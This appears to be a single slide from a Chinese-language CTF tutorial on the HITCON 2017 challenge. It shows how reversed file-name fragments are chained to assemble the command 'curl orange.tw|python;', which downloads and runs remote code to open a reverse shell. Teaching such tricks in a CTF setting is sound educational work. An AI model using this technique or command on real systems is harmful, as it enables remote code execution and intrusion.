

题目类型
例子（HITCON2017）：
第三步：

>\;\
>on\
>th\
>py\
>\|\
>tw\
>e.\
>ng\
>ra\
>o\
>\\
>rl\
>cu\
生成命令 “curl orange.tw|python;”,即可反弹shell